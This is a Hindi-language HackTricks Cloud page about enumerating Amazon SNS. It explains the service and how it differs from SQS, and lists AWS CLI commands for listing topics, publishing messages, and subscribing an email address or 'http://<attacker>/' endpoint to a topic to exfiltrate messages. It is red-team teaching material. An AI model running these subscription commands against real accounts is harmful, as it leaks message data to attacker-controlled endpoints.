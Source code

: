 # AWS - SNS Enum

{% hint style="success" %}
AWS Hacking सीखें और अभ्यास करें:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
GCP Hacking सीखें और अभ्यास करें: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks को समर्थन दें</summary>

* [**सदस्यता योजनाओं**](https://github.com/sponsors/carlospolop) की जाँच करें!
* **💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) या [**telegram समूह**](https://t.me/peass) में शामिल हों या हमें **Twitter** 🐦 पर **फॉलो करें** [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **PRs सबमिट करके हैकिंग ट्रिक्स साझा करें** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos में।

</details>
{% endhint %}

## SNS

Amazon Simple Notification Service (Amazon SNS) को एक **पूर्ण प्रबंधित मैसेजिंग सेवा** के रूप में वर्णित किया गया है। यह **एप्लिकेशन-टू-एप्लिकेशन** (A2A) और **एप्लिकेशन-टू-परसन** (A2P) संचार प्रकारों दोनों का समर्थन करता है।

A2A संचार के लिए प्रमुख विशेषताओं में **प्रकाशन/सदस्यता (pub/sub) तंत्र** शामिल हैं। ये तंत्र **विषयों** को पेश करते हैं, जो उच्च-थ्रूपुट, **पुश-आधारित, कई-से-कई मैसेजिंग** को सक्षम करने के लिए महत्वपूर्ण हैं। यह सुविधा वितरित प्रणालियों, माइक्रोसर्विसेज, और इवेंट-चालित सर्वरलेस आर्किटेक्चर से जुड़े परिदृश्यों में अत्यधिक लाभकारी है। इन विषयों का लाभ उठाकर, प्रकाशक प्रणालियाँ **विभिन्न प्रकार की सदस्य प्रणालियों** को संदेश कुशलतापूर्वक वितरित कर सकती हैं, जिससे एक फैनआउट मैसेजिंग पैटर्न की सुविधा मिलती है।

### **SQS के साथ अंतर**

**SQS** एक **क्यू-आधारित** सेवा है जो बिंदु-से-बिंदु संचार की अनुमति देती है, यह सुनिश्चित करते हुए कि संदेश एक **एकल उपभोक्ता** द्वारा संसाधित किए जाते हैं। यह **कम से कम एक बार डिलीवरी** प्रदान करता है, मानक और FIFO कतारों का समर्थन करता है, और पुनः प्रयास और विलंबित प्रसंस्करण के लिए संदेश प्रतिधारण की अनुमति देता है।\
दूसरी ओर, **SNS** एक **प्रकाशन/सदस्यता-आधारित सेवा** है, जो **एक-से-कई** संचार को सक्षम करती है, जिससे संदेशों को **कई ग्राहकों** को एक साथ प्रसारित किया जा सकता है। यह **विभिन्न सदस्यता एंडपॉइंट्स जैसे ईमेल, एसएमएस, Lambda फंक्शंस, और HTTP/HTTPS** का समर्थन करता है, और लक्षित संदेश वितरण के लिए फ़िल्टरिंग तंत्र प्रदान करता है।\
जबकि दोनों सेवाएं वितरित प्रणालियों में घटकों के बीच डिकपलिंग को सक्षम करती हैं, SQS कतारबद्ध संचार पर ध्यान केंद्रित करता है, और SNS इवेंट-चालित, फैन-आउट संचार पैटर्न पर जोर देता है।

### **Enumeration**
```bash
# Get topics & subscriptions
aws sns list-topics
aws sns list-subscriptions
aws sns list-subscriptions-by-topic --topic-arn <arn>

# Check privescs & post-exploitation
aws sns publish --region <region> \
--topic-arn "arn:aws:sns:us-west-2:123456789012:my-topic" \
--message file://message.txt

# Exfiltrate through email
## You will receive an email to confirm the subscription
aws sns subscribe --region <region> \
--topic-arn arn:aws:sns:us-west-2:123456789012:my-topic \
--protocol email \
--notification-endpoint my-email@example.com

# Exfiltrate through web server
## You will receive an initial request with a URL in the field "SubscribeURL"
## that you need to access to confirm the subscription
aws sns subscribe --region <region>\
--protocol http \
--notification-endpoint http://<attacker>/ \
--topic-arn <arn>
```
{% hint style="danger" %}
ध्यान दें कि यदि **topic का प्रकार FIFO** है, तो केवल **SQS** प्रोटोकॉल का उपयोग करने वाले सब्सक्राइबर का उपयोग किया जा सकता है (HTTP या HTTPS का उपयोग नहीं किया जा सकता)।

इसके अलावा, भले ही `--topic-arn` में क्षेत्र शामिल हो, सुनिश्चित करें कि आप **`--region`** में सही क्षेत्र निर्दिष्ट करें अन्यथा आपको एक त्रुटि मिलेगी जो यह संकेत देती है कि आपके पास पहुंच नहीं है लेकिन समस्या क्षेत्र की है।
{% endhint %}

#### Unauthenticated Access

{% content-ref url="../aws-unauthenticated-enum-access/aws-sns-unauthenticated-enum.md" %}
[aws-sns-unauthenticated-enum.md](../aws-unauthenticated-enum-access/aws-sns-unauthenticated-enum.md)
{% endcontent-ref %}

#### Privilege Escalation

{% content-ref url="../aws-privilege-escalation/aws-sns-privesc.md" %}
[aws-sns-privesc.md](../aws-privilege-escalation/aws-sns-privesc.md)
{% endcontent-ref %}

#### Post Exploitation

{% content-ref url="../aws-post-exploitation/aws-sns-post-exploitation.md" %}
[aws-sns-post-exploitation.md](../aws-post-exploitation/aws-sns-post-exploitation.md)
{% endcontent-ref %}

#### Persistence

{% content-ref url="../aws-persistence/aws-sns-persistence.md" %}
[aws-sns-persistence.md](../aws-persistence/aws-sns-persistence.md)
{% endcontent-ref %}

## References

* [https://aws.amazon.com/about-aws/whats-new/2022/01/amazon-sns-attribute-based-access-controls/](https://aws.amazon.com/about-aws/whats-new/2022/01/amazon-sns-attribute-based-access-controls/)

{% hint style="success" %}
AWS Hacking सीखें और अभ्यास करें:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
GCP Hacking सीखें और अभ्यास करें: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks को समर्थन दें</summary>

* [**subscription plans**](https://github.com/sponsors/carlospolop) देखें!
* 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) या [**telegram group**](https://t.me/peass) में शामिल हों या **Twitter** 🐦 पर हमें फॉलो करें [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **हैकिंग ट्रिक्स साझा करें** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos में PRs सबमिट करके।

</details>
{% endhint %}
